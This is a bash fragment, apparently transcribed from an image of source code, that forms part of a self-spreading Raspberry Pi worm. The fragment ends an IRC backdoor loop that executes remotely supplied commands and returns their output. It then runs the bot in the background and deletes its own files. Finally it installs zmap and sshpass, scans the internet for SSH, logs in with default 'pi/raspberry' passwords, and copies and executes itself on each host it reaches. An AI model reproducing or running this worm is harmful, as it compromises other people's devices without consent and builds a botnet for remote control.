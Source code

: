 ```bash
      hash=`echo $privmsg_data | base64 -d -i | md5sum | awk -F' ' '{print $1}'`
      sign=`echo $privmsg_h | base64 -d -i | openssl rsautl -verify -inkey /tmp/public.pem -pubin`

      if [[ "$sign" == "$hash" ]] ; then
        CMD=`echo $privmsg_data | base64 -d -i`
        RES=`bash -c "$CMD" | base64 -w 0`
        eval 'printf "PRIVMSG $privmsg_nick :$RES\r\n" >&3;'
        if [[ ! "$?" -eq 0 ]] ; then
          break
        fi
      fi
    fi
  done
done
EOFMARKER

chmod +x /tmp/$BOT
nohup /tmp/$BOT 2>&1 > /tmp/bot.log &
rm /tmp/nohup.log -rf
rm -rf nohup.out
sleep 3
rm -rf /tmp/$BOT

NAME=`mktemp -u 'XXXXXXXX'`

date > /tmp/.s

apt-get update -y --force-yes
apt-get install zmap sshpass -y --force-yes

while [ true ]; do
  FILE=`mktemp`
  zmap -p 22 -o $FILE -n 100000
  killall ssh scp
  for IP in `cat $FILE`
  do
    sshpass -praspberry scp -o ConnectTimeout=6 -o NumberOfPasswordPrompts=1 -o PreferredAuthentications=password -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no $MYSELF pi@$IP:/tmp/$NAME  && echo $IP >> /opt/.r && sshpass -praspberry ssh pi@$IP -o ConnectTimeout=6 -o NumberOfPasswordPrompts=1 -o PreferredAuthentications=password -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no "cd /tmp && chmod +x $NAME && bash -c ./$NAME" &
    sshpass -praspberryraspberry993311 scp -o ConnectTimeout=6 -o NumberOfPasswordPrompts=1 -o PreferredAuthentications=password -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no $MYSELF pi@$IP:/tmp/$NAME  && echo $IP >> /opt/.r && sshpass -praspberryraspberry993311 ssh pi@$IP -o ConnectTimeout=6 -o NumberOfPasswordPrompts=1 -o PreferredAuthentications=password -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no "cd /tmp && chmod +x $NAME && bash -c ./$NAME" &
  done
  rm -rf $FILE
  sleep 10
done

fi
```
